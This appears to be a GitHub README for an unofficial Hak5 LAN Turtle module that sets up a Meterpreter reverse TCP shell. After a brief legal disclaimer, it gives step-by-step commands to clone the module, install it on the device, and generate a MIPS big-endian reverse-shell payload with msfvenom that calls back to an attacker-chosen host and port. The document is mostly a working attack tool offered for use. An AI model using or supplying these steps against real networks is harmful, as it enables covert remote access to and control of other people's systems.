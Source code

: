 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - Download module from github**<br />
`git clone https://github.com/ATTACKnDEFEND/LanTurtlemeterpreter-mipsbe-reverse-tcp`

**2 - copy meterpreter-mipsbe-reverse-tcp to Hak5 Turtle modules directory **<br />
`copy meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`

**3 - On Kali generate Meterpreter payload with Msfvenom **<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f elf > meterpreter-mipsbe-reverse-tcp`





